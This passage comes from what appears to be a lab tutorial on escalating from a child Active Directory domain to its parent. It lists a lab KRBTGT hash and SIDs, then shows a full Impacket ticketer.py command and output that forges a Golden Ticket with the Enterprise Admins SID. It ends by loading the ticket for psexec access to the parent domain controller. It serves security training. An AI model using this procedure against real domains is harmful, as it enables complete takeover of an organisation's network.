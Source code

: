 We have gathered the following data points to construct the command for our attack. Once again, we will use the non-existent user `hacker` to forge our Golden Ticket.

- The KRBTGT hash for the child domain: `9d765b482771505cbe97411065964d5f`
- The SID for the child domain: `S-1-5-21-2806153819-209893948-922872689`
- The name of a target user in the child domain (does not need to exist!): `hacker`
- The FQDN of the child domain: `LOGISTICS.INLANEFREIGHT.LOCAL`
- The SID of the Enterprise Admins group of the root domain: `S-1-5-21-3842939050-3880317879-2865463114-519`

Next, we can use [ticketer.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) from the Impacket toolkit to construct a Golden Ticket. This ticket will be valid to access resources in the child domain (specified by `-domain-sid`) and the parent domain (specified by `-extra-sid`).

#### Constructing a Golden Ticket using ticketer.py

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ ticketer.py -nthash 9d765b482771505cbe97411065964d5f -domain LOGISTICS.INLANEFREIGHT.LOCAL -domain-sid S-1-5-21-2806153819-209893948-922872689 -extra-sid S-1-5-21-3842939050-3880317879-2865463114-519 hacker

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for LOGISTICS.INLANEFREIGHT.LOCAL/hacker
[*] 	PAC_LOGON_INFO
[*] 	PAC_CLIENT_INFO_TYPE
[*] 	EncTicketPart
[*] 	EncAsRepPart
[*] Signing/Encrypting final ticket
[*] 	PAC_SERVER_CHECKSUM
[*] 	PAC_PRIVSVR_CHECKSUM
[*] 	EncTicketPart
[*] 	EncASRepPart
[*] Saving ticket in hacker.ccache
```

The ticket will be saved down to our system as a [credential cache (ccache)](https://web.mit.edu/kerberos/krb5-1.12/doc/basic/ccache_def.html) file, which is a file used to hold Kerberos credentials. Setting the `KRB5CCNAME` environment variable tells the system to use this file for Kerberos authentication attempts.

#### Setting the KRB5CCNAME Environment Variable

Attacking Domain Trusts - Child -> Parent Trusts - from Linux

```shell-session
swmpdnky@htb[/htb]$ export KRB5CCNAME=hacker.ccache 
```

We can check if we can successfully authenticate to the parent domain's Domain Controller using [Impacket's version of Psexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py). If successful, we will be dropped into a SYSTEM shell on the target Domain Controller.
